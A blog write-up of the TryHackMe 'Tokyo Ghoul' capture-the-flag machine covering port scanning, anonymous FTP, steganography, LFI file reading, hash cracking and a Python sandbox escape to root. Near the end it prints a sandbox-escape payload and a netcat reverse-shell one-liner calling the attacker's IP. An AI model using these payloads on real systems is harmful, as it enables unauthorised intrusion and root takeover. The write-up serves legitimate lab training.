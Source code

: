 ```yaml
---
layout: project
type: project
image: images/writeups/thm/tokyo-ghoul/00.png
title: Tokyo Ghoul - TryHackMe
permalink: writeups/tokyo-ghoul
# All dates must be YYYY-MM-DD format!
date: 2021-03-18
labels:
  - TryHackMe
  - boot2root
  - medium
  - LFI
  - Python Sandbox
  - Enumeration
summary: Help kaneki escape jason room in this Tokyo Ghoul inspired machine.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/0.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

## Enumeration

Starting off with rustscan to quickly scan all ports

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/1.png">

Performing a full scan with nmap on those ports

```
┌──(root💀Toyin)-[~/infosec/thm/tokyo-ghoul]
└─# nmap -sS -T4 -A -p 21,22,80 -oN nmap 10.10.7.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 20:28 WAT
Nmap scan report for 10.10.7.110
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.169.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   196.06 ms 10.8.0.1
2   196.02 ms 10.10.7.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```

I added the target IP to my /etc/hosts as ghoul.thm so i won't have to type the IP all the time

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/2.png">

### FTP

Starting my poking around on ftp port 21 since anonymous login is available and nmap showed an intersting file present

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3.png">

Looking further into the files i find need_to_talk to be an executable. I ran it and got some useful information back. I used rabin2 to read the strings from the data section and found what was likely to be the passphrase

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3-1.png">

After getting the “passphrase” I decided to try it to extract data from the image i got from the ftp. I ended up with dots and dashes, so morse code, and went to my trusty chef to cook up something

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/4.png">

After tweaking the recipe I got what was surely a hidden directory

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/5.png">

### HTTP

Looking at the source for http://ghoul.thm I see a hint about anonymous ftp login but I've already done that same hint in http://ghoul.thm/jasonroom.html
Going into the directory I found, I see clear instructions to scan it so it would be quite rude not to

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/6.png">

gobuster took it's time but returned something. i should have probably used ffuf instead

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/7.png">

## Exploitation

Going to page i find that the links have get parameters that could possibly be LFI exploitable

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/8.png">

Trying basic LFI payload of ../../../../../../etc/passwd returned a message of “no no no silly don't do that” so i used ffuf to test various payloads and got a hit

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/9.png">

I used curl to get the contents and luckily also got a password hash for the user kamishiro

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/10.png">

Cracking the hash using hashcat i got the password for kamishiro and then logged in via ssh

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/11.png">

## Privilege Escalation

Upon logging in I ran "sudo -l" to see what sudo privileges the user had. I found that the user could execute a certain script as root
Checking the script it showed that it uses the “exec()” function therefore it can execute user input. It does have some filters so i would have to use a payload that doesn't include any of those

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/12.png">

using the payload below i was able to bypass the “python sandbox/jail”

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cmd')
```
reference: [Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/13.png">

Using the payload below to get a reverse shell as root

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.169.153 4444 >/tmp/f')
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/14.png">

pwned
